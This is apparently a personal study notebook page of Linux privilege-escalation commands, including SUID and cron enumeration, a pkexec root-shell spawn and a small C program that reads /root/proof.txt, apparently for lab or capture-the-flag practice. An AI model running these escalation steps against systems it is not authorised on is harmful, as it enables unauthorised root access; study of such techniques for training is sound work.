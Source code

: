 ### 29082023Tue


![[Linux Privilege Escalation.png]]

### 01092023Fri

```
sudo -i
```

```
sudo su
```

```
find / -perm -4000 2>/dev/null
```

```
cat /etc/polkit-1/localauthority.conf.d/*
```

```
pkexec "/bin/sh" #You will be prompted for your user password
```

```
sudo pkexec /bin/sh
```

```
crontab -l
```

```
ls -al /etc/cron* /etc/at*
```

```
find / -name backup 2>/dev/null
```

```
tar -zxvf backup
```

```
ps -aux
```

```
pstree
```

```
ps -def
```

```
int main(void)
{
	system("cat /root/proof.txt")
}
```

**Checking kernel/OS versions**

```
uname -a
```

```
cat /etc/*release
```

```
find / -user username 2>/dev/null | grep -v 'proc\|run\|sys'
```